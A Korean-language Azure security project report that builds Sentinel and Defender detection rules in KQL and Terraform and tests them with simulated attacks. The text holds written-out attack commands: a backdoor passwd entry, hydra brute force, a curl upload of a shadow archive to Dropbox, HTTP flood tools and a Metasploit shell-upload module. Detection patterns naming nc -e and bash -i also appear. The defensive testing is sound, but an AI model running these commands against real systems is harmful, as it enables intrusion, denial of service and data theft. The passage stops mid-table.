

## 목차

1. [개요](#1-개요)
2. [Microsoft Defender XDR 사용하여 위협 탐지 및 대응](#2-microsoft-defender-xdr-사용하여-위협-탐지-및-대응)
    *   [2.1 통합 보안 플랫폼](#21-통합-보안-플랫폼)
    *   [2.2 클라우드용 Microsoft Defender](#22-클라우드용-microsoft-defender)
    *   [2.3 Defender for Servers (호스트 행위 탐지)](#23-defender-for-servers-호스트-행위-탐지)
    *   [2.4 제한사항 및 미구현 항목](#24-제한사항-및-미구현-항목)
3. [KQL을 사용하여 Microsoft Sentinel 활용](#3-kql을-사용하여-microsoft-sentinel-활용)
    *   [3.1 KQL 기초 및 데이터 요약](#31-kql-기초-및-데이터-요약)
    *   [3.2 다중 테이블 작업 (Union/Join)](#32-다중-테이블-작업-unionjoin)
    *   [3.3 데이터 시각화](#33-데이터-시각화)
4. [Microsoft Sentinel 위협 탐지 및 헌팅](#4-microsoft-sentinel-위협-탐지-및-헌팅)
    *   [4.1 SSH Brute Force 공격 탐지](#41-ssh-brute-force-공격-탐지)
    *   [4.2 악성 IP 통신 탐지 (Threat Intelligence)](#42-악성-ip-통신-탐지-threat-intelligence)
    *   [4.3 권한 상승 시도 탐지](#43-권한-상승-시도-탐지)
    *   [4.4 WAF 공격 로그 분석](#44-waf-공격-로그-분석)
    *   [4.5 데이터 유출 시도 탐지 (Data Exfiltration)](#45-데이터-유출-시도-탐지-data-exfiltration)
    *   [4.6 분석 규칙 튜닝 (False Positive 감소)](#46-분석-규칙-튜닝-false-positive-감소)
    *   [4.7 외부 공격 시뮬레이션 (DDoS 및 웹 취약점)](#47-외부-공격-시뮬레이션-ddos-및-웹-취약점)
5. [MITRE ATT&CK 기반 종합 공격 조사 시나리오](#5-mitre-attck-기반-종합-공격-조사-시나리오)
    *   [5.1 시나리오 개요: 내부 중요 데이터 유출](#51-시나리오-개요-내부-중요-데이터-유출)
    *   [5.2 단계별 조사 프로세스 (Investigation)](#52-단계별-조사-프로세스-investigation)
    *   [5.3 인증 무결성 위반 및 이상 행위 탐지](#53-인증-무결성-위반-및-이상-행위-탐지)
    *   [5.4 종합 대응 방안 및 시사점](#54-종합-대응-방안-및-시사점)
6. [보안 사고 대응 및 자동화 (SOAR)](#6-보안-사고-대응-및-자동화-soar)
    *   [6.1 Action Group 알림 구성](#61-action-group-알림-구성)
    *   [6.2 보안 사고 조사 및 종결](#62-보안-사고-조사-및-종결)
    *   [6.3 위협 인텔리전스 보고서](#63-위협-인텔리전스-보고서)
7. [결론](#7-결론)

---

## 1. 개요

본 문서는 **"뚫으려는 시도를 어떻게 탐지하고, 대응했는가?"**를 검증하는 **행위기반 보안탐지 및 대응** 보고서입니다.


- **Microsoft Defender XDR**: 통합 위협 관리 플랫폼
- **KQL(Kusto Query Language)**: 로그 분석 및 시각화
- **Microsoft Sentinel**: 위협 탐지, 헌팅, 인시던트 관리
- **SOAR**: 보안 오케스트레이션 및 자동 대응

---

## 2. Microsoft Defender XDR 사용하여 위협 탐지 및 대응

### 2.1 통합 보안 플랫폼

2025년 7월부터 Microsoft는 Sentinel과 Defender XDR을 단일 포털(`security.microsoft.com`)로 통합하는 전략을 추진 중입니다. 본 프로젝트에서도 이를 구현하기 위해 **Sentinel 작업 영역('www-law')과 Defender XDR의 통합**을 시도했습니다.

**1) 통합 연결 검증**
*   **검증:** Microsoft Sentinel의 **'구성 > 데이터 커넥터'**에서 **Microsoft Defender XDR** 커넥터 연결 상태 확인.

*   **결과:** **연결 실패 (Not Connected)**.

*   **분석:**
    *   **전역 관리자(Global Admin) 권한 부재:** Student Subscription의 RBAC 제한으로 인해 Tenant 레벨 권한이 필요한 XDR 통합 승인 불가.

    *   **라이선스 제한:** Entra ID P2 및 Microsoft 365 E5 라이선스가 없어 XDR의 핵심 기능(ID 보호, 이메일 보호 등) 활성화 불가.

    *   **CLI 검증:** `az sentinel data-connector list` 조회 결과, **DefenderForCloudConnector** 외 XDR 커넥터는 존재하지 않음을 확인.


**2) 현재 보안 운영 아키텍처 (Hybrid Mode)**
통합 플랫폼 전환에는 실패하였으나, 다음과 같이 **개별 솔루션 연동**을 통해 보안 관제 체계를 구축했습니다.

*   **Microsoft Sentinel:** 데이터 수집, 위협 탐지, 인시던트 관리 (SIEM)
*   **Defender for Cloud:** 서버(VM), SQL, 스토리지 등 인프라 보호 (CWPP/CSPM)
*   **연동:** 'Subscription-based Microsoft Defender for Cloud (Legacy)' 커넥터를 통해 Defender의 경고를 Sentinel로 수집.

**3) 활성화된 데이터 커넥터**

| 분류 | 커넥터명 |
|:---|:---|
| **보안 솔루션** | Subscription-based Microsoft Defender for Cloud (Legacy) |
| | Microsoft Defender Threat Intelligence |
| **인프라 로그** | Syslog via AMA |
| | Azure Web Application Firewall (WAF) |
| | Network Security Groups |
| | Azure Key Vault |
| | Azure Storage Account |

*   실제 데이터 흐름은 **Legacy 커넥터**와 **AMA**를 통해 이루어지며, XDR 통합 커넥터는 연결되지 않았습니다.

### 2.2 클라우드용 Microsoft Defender

**1) Defender Plans 활성화 현황**

```hcl
resource "azurerm_security_center_subscription_pricing" "vm" {
  tier          = "Standard"        # 고급 위협 탐지 활성화
  resource_type = "VirtualMachines"
}

resource "azurerm_security_center_subscription_pricing" "sql" {
  tier          = "Standard"
  resource_type = "SqlServers"      # Storage, KeyVault, ARM, Containers, DNS 동일 구조
}
```

| 리소스 타입 | Terraform resource_type | Tier | 비고 |
|:---|:---|:---:|:---|
| **VirtualMachines** | `VirtualMachines` | Standard | FIM, JIT, VA, EDR |
| **SqlServers** | `SqlServers` | Standard | 취약점 평가, 위협 탐지 |
| **StorageAccounts** | `StorageAccounts` | Standard | 악성 파일 스캔 |
| **KeyVaults** | `KeyVaults` | Standard | 비정상 접근 탐지 |
| **Arm** | `Arm` | Standard | ARM 배포 이상 탐지 |
| **Containers** | `Containers` | Standard | ACR 이미지 스캔 |
| **Dns** | `Dns` | Standard | DNS 이상 트래픽 |

**2) 위협 탐지 현황**

검증 기간 동안 Defender가 탐지한 주요 위협:


| 시간 | 심각도 | 탐지 내용 | 대상 리소스 | 대응 |
|:---|:---:|:---|:---|:---|
| 12/06 06:25 | 🟠 Medium | Suspected brute-force attack | www-mysql-replica-2-0i | 사전 공격 |
| 12/05 11:50 | 🟠 Medium | Suspected brute-force attack | lupang-db-restored | 사전 공격 |
| 12/06 03:32 | 🟠 Medium | Suspected brute-force attack | www-mysql-server-twfs | 사전 공격 |


### 2.3 Defender for Servers (호스트 행위 탐지)

호스트 행위 탐지는 서버 내부에서 발생하는 **의심스러운 활동을 실시간으로 감지**하는 기술입니다. 주요 탐지 대상은 다음과 같습니다:
*   **파일 무결성 변조**: `/etc/passwd`, `/etc/shadow` 등 중요 시스템 파일 수정
*   **의심스러운 프로세스 실행**: `nc`, `bash -i`, `wget` 등 공격 도구 실행
*   **비정상 네트워크 연결**: C2 서버 통신, 비표준 포트 사용

**1) EICAR 멀웨어 시뮬레이션**

*   **검증 (Simulation):** `wget` 명령어로 EICAR 테스트 파일(`eicar.com`) 다운로드 시도.

    ```bash
    wget https://secure.eicar.org/eicar.com
    ```


*   **결과:** MDE 미설치로 **탐지 실패**. 파일 생성 및 실행이 차단 없이 완료됨.

**2) 호스트 행위 탐지 (auditd + Syslog 기반)**

**시나리오 1: 파일 무결성 모니터링**
*   **공격 시뮬레이션:**
    ```bash
    sudo echo "hacker:x:0:0::/root:/bin/bash" >> /etc/passwd
    ```


*   **Sentinel 탐지 쿼리 (KQL):**
    ```csharp
    Syslog
    | where Facility == "authpriv" or ProcessName == "auditd"
    | where SyslogMessage has_any ("/etc/passwd", "/etc/shadow", "/etc/sudoers")
    | where SyslogMessage has_any ("WRITE", "ATTR", "syscall", "type=PATH")
    | extend 
        TargetFile = extract(@"name=\"([^\"]+)\"", 1, SyslogMessage),
        User = extract(@"uid=(\d+)", 1, SyslogMessage),
        Action = case(
            SyslogMessage contains "WRITE", "파일 수정",
            SyslogMessage contains "ATTR", "속성 변경",
            "기타"
        )
    | project TimeGenerated, Computer, TargetFile, User, Action, SyslogMessage
    ```


*   **Terraform Analytics Rule:**
    ```hcl
    resource "azurerm_sentinel_alert_rule_scheduled" "sensitive_file_access" {
      name            = "sensitive-file-access"
      display_name    = "Sensitive File Access"
      severity        = "Medium"
      query_frequency = "PT15M"                          # 15분마다 실행
      tactics         = ["Collection", "CredentialAccess"] # MITRE 전술
      techniques      = ["T1005"]                        # 로컬 데이터 수집

      query = <<-QUERY
        Syslog
        | where SyslogMessage has_any ("/etc/passwd", "/etc/shadow", ".ssh")
        | where SyslogMessage has_any ("open", "read", "cat")
        | where User != "0"  // root 제외 (오탐 방지)
      QUERY
    }
    ```

**시나리오 2: 의심스러운 프로세스 실행 감시**

*   **탐지 대상:** 공격자가 침투 후 실행하는 도구 및 명령어
    - 네트워크 도구: `nc` (netcat), `nmap`, `wget`, `curl`
    - 쉘 접근: `bash -i`, `python -c`, `/bin/sh`
    - 권한 상승: `sudo`, `su`

*   **Sentinel 탐지 쿼리:**
    ```csharp
    Syslog
    | where SyslogMessage has_any ("exec", "EXECVE", "SYSCALL")
    | where SyslogMessage has_any ("nc -e", "bash -i", "wget", "curl", "python -c", "/bin/sh")
    | where ProcessName !in ("deploy.sh", "healthcheck.sh", "backup.sh")  // 화이트리스트
    | where Computer !in ("bastion-vm")  // 관리 서버 제외
    | extend 
        Command = extract(@"comm=\"([^\"]+)\"", 1, SyslogMessage),
        User = extract(@"uid=(\d+)", 1, SyslogMessage)
    | summarize 
        ExecutionCount = count(),
        Commands = make_set(Command)
        by Computer, User, bin(TimeGenerated, 5m)
    | where ExecutionCount > 2
    ```

*   **탐지 결과:**


**시나리오 3: 비정상 네트워크 연결 탐지**

*   **탐지 대상:** 공격자의 C2 서버 통신 또는 데이터 유출 시도
    - 비표준 포트 사용 (예: TCP 4444, 5555)
    - 외부 IP로의 역접속 (Reverse Shell)
    - 클라우드 스토리지 접근 (Dropbox, Google Drive)

*   **사전 설정 (auditd 네트워크 감사):**
    ```bash
    sudo auditctl -a always,exit -F arch=b64 -S connect -k network_connect
    ```

*   **Sentinel 탐지 쿼리:**
    ```csharp
    Syslog
    | where SyslogMessage has_any ("connect", "SOCKADDR")
    | extend 
        DestIP = extract(@"addr=([0-9\.]+)", 1, SyslogMessage),
        DestPort = extract(@":(\d+)", 1, SyslogMessage)
    | where DestPort in ("4444", "5555", "6666", "7777", "8888", "9999")  // 의심 포트
        or DestIP has_any ("dropbox.com", "drive.google.com", "mega.nz")
    | summarize 
        ConnectionCount = count(),
        DestPorts = make_set(DestPort)
        by Computer, DestIP, bin(TimeGenerated, 10m)
    | where ConnectionCount > 3
    ```

*   **탐지 결과:**


**3) 취약성 관리 (Vulnerability Assessment)**
*   **기능:** Qualys 및 Microsoft TVM 엔진을 통해 VM에 설치된 소프트웨어의 CVE 취약점 자동 스캔.

*   **결과:** 권장 패치 목록 및 심각도별 분류 제공.

### 2.4 제한사항 및 미구현 항목

평가 기준 중 라이선스/권한 제한으로 구현하지 못한 항목:

| 평가 항목 | 필요 조건 | 상태 | 대안 |
|:---|:---|:---:|:---|
| **Office 365용 Defender** | M365 라이선스 | ❌ | - |
| **Defender for Identity** | Tenant Admin | ❌ | Sentinel 행위 분석 |
| **Microsoft Entra ID Protection** | AAD P2 | ❌ | NSG IP 제한 |
| **Microsoft Purview (DLP)** | M365 E5 | ❌ | SQL Auditing |
| **Insider Risk Management** | M365 E5 Compliance | ❌ | Sentinel 사용자 분석 |

---

## 3. KQL을 사용하여 Microsoft Sentinel 활용

**KQL(Kusto Query Language)**은 Azure의 로그 데이터를 분석하기 위한 쿼리 언어입니다. SQL과 유사한 문법을 사용하며, 파이프라인(`|`) 연산자로 데이터를 필터링, 집계, 시각화합니다. Sentinel에서 위협 헌팅, 인시던트 조사, 대시보드 생성에 핵심적으로 사용됩니다.

### 3.1 KQL 기초 및 데이터 요약

**기본 쿼리 구조:**
```csharp
TableName
| where TimeGenerated > ago(24h)
| where FieldName == "value"
| project Column1, Column2, Column3
| summarize Count=count() by Column1
| order by Count desc
```

**예시: 최근 24시간 로그인 실패 요약**

```csharp
Syslog
| where TimeGenerated > ago(24h)
| where SyslogMessage contains "Failed password"
| summarize FailCount=count() by Computer
| order by FailCount desc
```

**결과:**


### 3.2 다중 테이블 작업 (Union/Join)

**Union: 여러 테이블 데이터 합치기**

```csharp
union Syslog, AzureDiagnostics
| where TimeGenerated > ago(1h)
| summarize count() by Type
```


**Join: 테이블 간 상관관계 분석**
```csharp
let FailedLogins = Syslog
| where SyslogMessage contains "Failed password"
| extend AttackerIP = extract(@"from (\d+\.\d+\.\d+\.\d+)", 1, SyslogMessage);

let FirewallBlocks = AzureDiagnostics
| where Category == "AzureFirewallNetworkRule"
| where msg_s contains "Deny";

FailedLogins
| join kind=inner (FirewallBlocks) on $left.AttackerIP == $right.SourceIP
| project TimeGenerated, AttackerIP, SyslogMessage, msg_s
```


**분석 결과:** SSH 공격을 시도한 IP가 방화벽에서도 차단된 이력이 있는지 확인 → **공격 패턴 연결**

### 3.3 데이터 시각화

**시계열 차트 (Time Chart)**
```csharp
Syslog
| where TimeGenerated > ago(24h)
| where SyslogMessage contains "Failed password"
| summarize FailCount=count() by bin(TimeGenerated, 1h)
| render timechart
```


**파이 차트 (Pie Chart)**
```csharp
AzureDiagnostics
| where Category == "ApplicationGatewayFirewallLog"
| summarize count() by ruleGroup_s
| render piechart
```


---

## 4. Microsoft Sentinel 위협 탐지 및 헌팅

### 4.0 Terraform으로 정의된 Sentinel 분석 규칙


| 규칙명 | 심각도 | Query Frequency | 탐지 대상 |
|:---|:---:|:---:|:---|
| **SSH Brute Force Detection** | 🔴 High | 5분 | 5분 내 3회 이상 SSH 로그인 실패 |
| **SMTP Brute Force Detection** | 🔴 High | 5분 | 5분 내 5회 이상 SMTP 인증 실패 |
| **Malicious IP Communication** | 🔴 High | 1시간 | Defender 네트워크 보안 경고 |
| **Privilege Escalation Attempt** | 🔴 High | 5분 | sudo 권한 상승 실패 (NOT in sudoers) |
| **Suspicious Process Execution** | 🔴 High | 5분 | wget\|curl, nc -e, bash -i 등 의심 명령 |
| **Log Tampering Detection** | 🔴 High | 5분 | `/var/log` 삭제/변조 시도 |
| **Break Glass Account Usage** | 🔴 High | 5분 | 긴급 계정(breakglass) 로그인 |
| **Firewall Blocked Traffic** | 🔴 High | 5분 | Azure Firewall Deny 트래픽 |
| **WAF Attack Detection** | 🟠 Medium | 15분 | WAF가 차단한 SQLi/XSS 공격 |
| **Sensitive File Access** | 🟠 Medium | 15분 | /etc/passwd, shadow, sudoers 접근 |
| **RBAC Role Assignment Change** | 🟠 Medium | 15분 | Azure RBAC 역할 할당 변경 |
| **NSG Rule Modification** | 🟠 Medium | 15분 | NSG 보안 규칙 변경 |
| **Mail Spoofing Attempt** | 🟠 Medium | 15분 | SPF 검증 실패 (이메일 스푸핑) |
| **Mass HTTP Requests** | 🟠 Medium | 5분 | 1분 내 100회 이상 요청 (DDoS/크롤러) |
| **Off Hours Login** | 🟡 Low | 30분 | 02:00~05:00 사이 로그인 |
| **Port Scan Detection** | 🟠 Medium | 10분 | 5분 내 10개 이상 포트 스캔 (비활성화) |

### 4.1 SSH Brute Force 공격 탐지

**시나리오 및 환경:**
*   **공격자:** 외부망(VMware)에 위치한 Kali Linux (IP: 비인가 외부 IP).
*   **대상:** Azure VMSS 공인 IP 또는 Public LB.
*   **참고:** 실제 환경에서 비인가 IP의 SSH 접근은 NSG(Network Security Group)에서 사전 차단되나, 본 검증에서는 **`Syslog` 기반의 인증 실패 분석 규칙 확인을 위해** 테스트 IP에 대해 일시적으로 접근을 허용(JIT)하여 로그를 생성했습니다.

**공격 실행 (External Kali):**
```bash
hydra -l root -P pass.txt ssh://<Target_Public_IP> -t 4
```


**탐지 쿼리 (Terraform에서 정의된 실제 Analytics Rule):**
```csharp
Syslog
| where Facility == "auth" or Facility == "authpriv"
| where SyslogMessage contains "Failed password"
| extend AttackerIP = extract(@"from\s+(\d+\.\d+\.\d+\.\d+)", 1, SyslogMessage)
| extend TargetUser = extract(@"for\s+(invalid\s+user\s+)?(\w+)", 2, SyslogMessage)
| summarize FailedAttempts = count(), TargetUsers = make_set(TargetUser) 
    by Computer, AttackerIP, Bin = bin(TimeGenerated, 5m)
| where FailedAttempts > 3
| project TimeGenerated = Bin, Computer, AttackerIP, FailedAttempts, TargetUsers
```

**Rule 설정:**
- **Display Name:** SSH Brute Force Attack
- **Severity:** High
- **Query Frequency:** 5분 (`PT5M`)
- **Trigger Threshold:** 3회 이상 실패

**탐지 결과:**


**인시던트 생성:** Sentinel이 자동으로 **'SSH Brute Force Attack'** 인시던트 생성

### 4.2 악성 IP 통신 탐지 (Threat Intelligence)

내부 자산이 알려진 악성 도메인이나 C2 서버와 통신을 시도하는 것을 조기에 식별합니다.

**1) 시나리오 및 설정**
*   **시나리오:** 악성코드에 감염된 내부 VM이 해커의 명령 제어(C2) 서버로 비콘(Beacon) 신호를 전송.
*   **설정:** Microsoft 위협 인텔리전스(TI) 피드를 활용하여, 방화벽 로그의 목적지 IP와 TI 데이터베이스의 악성 IP를 실시간 대조.


**2) 탐지 쿼리**
```csharp
ThreatIntelligenceIndicator
| where TimeGenerated > ago(30d)
| where isnotempty(NetworkIP)
| join kind=inner (
    AzureDiagnostics
    | where Category == "AzureFirewallNetworkRule"
    | extend DestIP = extract(@"to (\d+\.\d+\.\d+\.\d+)", 1, msg_s)
) on $left.NetworkIP == $right.DestIP
| project TimeGenerated, NetworkIP, ThreatType, Description, msg_s
```


### 4.3 권한 상승 시도 탐지

**1) 시나리오 및 설정**
*   **시나리오:** 웹 취약점을 통해 침투한 공격자가 시스템 장악을 위해 `root` 권한 획득(Privilege Escalation)을 시도.
*   **설정:** `sudo` 권한이 없는 사용자가 `sudo` 명령어를 반복 실패할 경우 '심각(High)' 경보 발송. (임계치: 5분 내 5회 실패)

**2) 탐지 쿼리 및 결과**
```csharp
Syslog
| where Facility == "auth"
| where SyslogMessage has_any ("sudo", "su")
| where SyslogMessage contains "FAILED" or SyslogMessage contains "authentication failure"
| extend User = extract(@"user=(\w+)", 1, SyslogMessage)
| extend Command = extract(@"COMMAND=(.+)$", 1, SyslogMessage)
| summarize 
    FailedAttempts = count(),
    Commands = make_set(Command)
    by Computer, User
| where FailedAttempts > 5
```

*   **탐지 결과:** 

`www-data` 계정이 `/etc/shadow` 파일 열람을 위해 `sudo`를 반복 시도한 패턴을 탐지하여 인시던트 생성.

### 4.4 WAF 공격 로그 분석

**1) 시나리오 및 설정**
*   **시나리오:** 자동화된 공격 도구(SQLMap 등)를 사용한 웹 애플리케이션 취약점 스캐닝 공격.
*   **설정:** AppGateway WAF는 **OWASP CRS 3.2** 규칙 집합을 적용 중이며, '예방(Prevention)' 모드로 설정되어 있음.

**2) WAF 차단 로그 분석 쿼리**
```csharp
AzureDiagnostics
| where ResourceType == "APPLICATIONGATEWAYS"
| where OperationName == "ApplicationGatewayFirewall"
| where action_s == "Blocked"
| extend AttackType = case(
    ruleId_s startswith "942", "SQL Injection",
    ruleId_s startswith "941", "XSS",
    ruleId_s startswith "930", "LFI/RFI",
    ruleId_s startswith "932", "RCE",
    "Other"
)
| summarize Count=count() by AttackType, clientIp_s
| order by Count desc
```
*   **분석 결과:**


### 4.5 데이터 유출 시도 탐지 (Data Exfiltration)

**1) 시나리오 및 정책**
*   **시나리오:** 감염된 내부 서버가 외부 C&C 서버 또는 불법 클라우드 스토리지로 중요 데이터 업로드를 시도.
*   **정책:** Azure Firewall은 **Default Deny** 정책을 적용하여, 업무상 허용된 도메인(`*.windowsupdate.com` 등) 외 모든 Outbound 트래픽을 차단.

**2) 공격 시뮬레이션**
```bash
# 중요 데이터를 외부 저장소로 유출 시도
curl -X POST -F "file=@shadow.tar.gz" https://www.dropbox.com/upload
```


**3) 탐지 및 차단 결과**
*   **Firewall:** 트래픽 차단 (Action: **Deny**)
*   **Sentinel:** 'Firewall Blocked Traffic' 경보 발생
*   **쿼리 결과:**
    ```csharp
    AzureDiagnostics
    | where Category == "AzureFirewallApplicationRule"
    | where msg_s contains "Deny"
    // ... (중략) ...
    ```
    *   `dropbox.com`으로 향하는 비정상 트래픽이 방화벽에 의해 사전 차단되었음을 로그로 확인.


---

### 4.6 분석 규칙 튜닝 (False Positive 감소)

**1) 문제 식별 (오탐 발생)**

*   **현상:** 정상적인 CI/CD 배포 스크립트가 실행될 때마다 'Suspicious Process' 오탐(False Positive) 경보가 다수 발생하여 피로도 증가.
*   **원인:** 배포 스크립트(`deploy.sh`)가 `wget`이나 `curl`을 사용하는데, 이를 악성 행위로 오인함.

**2) 튜닝 (Whitelist 적용)**
*   **조치:** 신뢰할 수 있는 프로세스명과 관리 서버를 예외 처리(Whitelist) 조건에 추가.
    ```csharp
    Syslog
    | where SyslogMessage contains "exec"
    | where ProcessName !in ("deploy.sh", "healthcheck.sh", "backup.sh")  // Whitelist 추가
    | where Computer !in ("bastion-vm")  // 관리 서버 제외
    | where TimeGenerated > ago(10m)
    ```

**3) 결과**

*   **효과:** 오탐률이 **80% 이상 감소**하여, 보안 관제 팀이 실제 중요 위협에만 집중할 수 있는 환경 조성.

### 4.7 외부 공격 시뮬레이션 (DDoS 및 웹 취약점)

**보안 아키텍처 검증 환경:**
*   **공격자:** 외부 VMware 상의 Kali Linux (클라우드 외부, 비인가 IP)
*   **대상:** Azure App Gateway/Load Balancer Public IP (Web 포트 80/443 Open)

내부망 시뮬레이션과 별도로, **외부 비인가 IP (VMware Kali)**에서 공인 IP를 대상으로 실제 공격을 수행하여 경계 보안(App Gateway WAF)의 탐지 및 차단 능력을 검증했습니다.

**1) Slow HTTP DoS 공격 (Slowloris)**
*   **목적:** HTTP 요청을 매우 느리게 보내 웹 서버의 연결 자원을 고갈시키는 공격(Low & Slow)에 대한 WAF/LB의 방어 능력 확인.
*   **공격 도구 및 명령어 (App Gateway Public IP 대상):**
    ```bash
    # 연결 1000개 시도, 30초마다 갱신 (헤더 지연 전송)
    slowhttptest -X -c 1000 -r 200 -u http://<LB-IP>/ -t GET -p 3 -l 30
    ```


*   **예상 결과 및 로그 검증:**
    *   **App Gateway WAF:** 비정상적인 Time-out 패턴 또는 연결 과다로 인한 차단.
    *   **Sentinel KQL:** `AzureDiagnostics | where Category == "ApplicationGatewayFirewallLog" | where ruleId_s == "200004"`


**2) Application Layer Flood 공격 (HTTP Flooding)**
*   **목적:** 대량의 정상적인 HTTP 요청(GET/POST)을 발생시켜 L7 부하를 유발.
*   **스크립트 기반 예상 동작 (`web_init.tftpl` 참조):**
    *   **Nginx 설정:** `limit_req_zone ... rate=20r/s` (일반), `rate=5r/s` (민감 경로).
    *   **결과:** 임계치 초과 시 **503 Service Unavailable** (Custom HTML: "잠시 연결이 지연되고 있습니다") 응답 반환 확인.
*   **공격 도구:**
    ```bash
    # wrk: 4스레드, 200연결로 30초간 부하
    wrk -t4 -c200 -d30s --timeout 30s http://<LB-IP>/
    
    # ab: 총 10만 회
    ab -n 100000 -c 800 http://<LB-IP>/
    ```


*   **Sentinel 탐지 규칙:** `Mass HTTP Requests`

**3) 웹 취약점 스캐닝 및 Directory Access 제어**
*   **목적:** WAF 차단 기능과 VM 내부 Nginx ACL 동작 검증.
*   **주요 공격 모듈 (Metasploit):**
    ```bash
    # (1) WordPress/PHP 취약점 공격 -> WAF 차단 확인 (403 Forbidden)
    use exploit/unix/webapp/wp_admin_shell_upload
    run
    ```


*   **PATH 기반 접근 제어 검증 (Nginx ACL):**
    *   **Case A (차단):** `/phpmyadmin`, `/admin_backup` 접근 시도.
        *   **결과:** Nginx 설정(`location ~ ... return 403`)에 의해 즉시 **403 Forbidden** 반환.
    
    *   **Case B (허용 - 취약점 시뮬레이션):** `/backup/` 접근 시도.
        *   **결과:** Nginx 설정(`autoindex on`)에 의해 **Directory Listing**이 노출됨을 확인 (의도된 취약점).
    
    *   **검증 방법:** `curl -I https://www.04www.cloud/phpmyadmin` 실행 시 403 응답 확인.

---

## 5. MITRE ATT&CK 기반 종합 공격 조사 시나리오

단일 위협 탐지를 넘어, 지능형 지속 위협(APT) 관점에서 **"침투 -> 탐색 -> 유출"**로 이어지는 공격의 전 과정을 추적하고 대응하는 모의 훈련을 수행했습니다. 이 시나리오는 기업 내 발생 가능한 **Insider Threat(내부자 위협)** 상황을 가정합니다.

### 5.1 시나리오 개요: 내부 중요 데이터 유출

*   **배경:** 외부 공격자가 취약한 포트 탐색부터 시작하여, 내부망 확산 및 흔적 삭제까지 시도하는 고도화된 APT 공격 시나리오.
*   **Attack Flow (MITRE ATT&CK Kill Chain):**
    1.  **Reconnaissance (T1595):** 외부인(Kali)이 Nmap 스캔을 통해 열려있는 포트(22, 80) 식별.
    2.  **Initial Access (T1110):** 무차별 대입(Brute Force) 공격으로 `www` 계정 패스워드 탈취 및 침투.
    3.  **Discovery (T1046):** 침투한 서버에서 내부 네트워크 대역 스캔 및 DB 서버 탐색.
    4.  **Lateral Movement (T1021):** 탈취한 계정으로 인접 시스템(DB/WAS) 및 관리망 영역으로 접근 시도.
    5.  **Collection & Exfiltration (T1567):** 중요 데이터를 압축(`tar`)하고 외부 클라우드(Dropbox)로 유출.
    6.  **Defense Evasion (T1070):** 발각을 피하기 위해 `bash_history` 등 로그 삭제 시도.

### 5.2 단계별 조사 프로세스 (Investigation)

**Step 1. 정찰 및 침투 (Recon & Initial Access)**
*   **시나리오:** Nmap 스캔 -> Hydra Brute Force -> SSH 접속 성공.

*   **KQL 분석:** `Failed password` 급증 후 `Accepted password` 패턴 탐지.

**Step 2. 내부 위협 행위 (Discovery & Lateral Movement)**
*   **시나리오:** 침투 후 `nc`, `ping`으로 내부 IP 스캔 및 타 서버 접속 시도.
*   **KQL 분석:**
    ```csharp
    // 내부망 스캔 및 거부된 트래픽(Lateral Movement 실패) 조회
    AzureDiagnostics
    | where Category == "AzureFirewallNetworkRule" or Category == "AzureFirewallApplicationRule"
    | where Action == "Deny"
    | where SourceIp == "<Web-VM-Private-IP>"
    | project TimeGenerated, SourceIp, DestinationIp, DestinationPort, Action
    ```

    
    *   **결과:** Web VM에서 DB/관리망으로 향하는 트래픽이 방화벽/NSG에 의해 차단된 로그 확인.

**Step 3. 데이터 유출 및 흔적 삭제 (Exfiltration & Evasion)**
*   **시나리오:** 중요 파일 압축(`tar`) 및 외부 전송(`curl`), 이후 로그 삭제(`rm`).
*   **Sentinel Alert:** **"Anomalous File Access"**, **"Potential Data Exfiltration"**
*   **KQL 분석:**
    ```csharp
    // 중요 파일 접근, 외부 전송, 로그 삭제 명령어 조회
    Syslog
    | where TimeGenerated > ago(1h)
    | where SyslogMessage has_any ("tar", "zip", "curl", "wget", "rm ", "history -c")
    | project TimeGenerated, Computer, User, SyslogMessage
    ```


**Step 4. 대응 및 차단 (Response)**

**1) 네트워크 격리**
*   **조치:** NSG Inbound Rules에서 공격자 IP를 Deny 처리.
*   **경로:** Azure Portal > NSG > Inbound Rules > + Add > Source IP 입력 > Action: Deny > Priority: 100

**2) 계정 잠금**
```bash
# 세션 강제 종료
pkill -u www

# 계정 잠금
sudo passwd -l www
```

**3) 정책 강화**
*   **조치:** Azure Firewall Application Rules에 Cloud Storage 도메인 차단 규칙 추가.
*   **차단 대상:** `*.dropbox.com`, `*.drive.google.com`, `*.mega.nz`


### 5.3 인증 무결성 위반 및 이상 행위 탐지

앞서 식별된 인증 토큰 취약점과 연계하여, **토큰 탈취** 및 **비정상 데이터 유출** 행위를 실시간으로 탐지하기 위한 Sentinel 분석 규칙을 구현했습니다.

#### 5.3.1 위협 탐지 모델

| 탐지 항목 | 설명 | MITRE ATT&CK |
